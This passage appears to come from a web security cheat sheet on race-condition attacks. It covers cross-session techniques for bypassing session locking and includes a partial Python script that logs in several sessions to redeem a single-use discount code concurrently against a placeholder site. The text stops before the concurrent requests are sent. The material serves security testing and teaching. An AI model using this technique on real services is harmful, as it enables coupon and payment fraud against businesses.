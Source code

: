        def handleResponse(req, interesting):
           table.add(req)
       ```

  - **Cross-session race conditions**
    1. **Bypassing session-based locking mechanisms**:
       - Step 1: Identify if the application uses session-based locking
       - Step 2: Create multiple valid sessions for the same account
       - Step 3: Prepare identical requests using different session tokens
       - Step 4: Send the requests simultaneously
       - Step 5: Check if the requests are processed concurrently despite session locking
       - Example Python script for cross-session exploitation:
       ```python
       import requests
       import threading
       import time
       
       def login_and_get_session():
           session = requests.Session()
           response = session.post(
               "https://vulnerable-website.com/login",
               data={
                   "username": "test_user",
                   "password": "password123"
               }
           )
           return session
       
       def exploit_with_session(session, url, data, session_id):
           response = session.post(url, json=data)
           print(f"Session {session_id} response: {response.status_code}")
           print(f"Response body: {response.text[:100]}")
           return response
       
       # Create multiple sessions
       sessions = []
       num_sessions = 5
       
       for i in range(num_sessions):
           print(f"Creating session {i+1}")
           session = login_and_get_session()
           sessions.append(session)
       
       # Target endpoint
       target_url = "https://vulnerable-website.com/redeem-code"
       
       # Data for each request
       request_data = {
           "code": "ONETIME10",  # Single-use discount code
           "product_id": "12345"
       }
       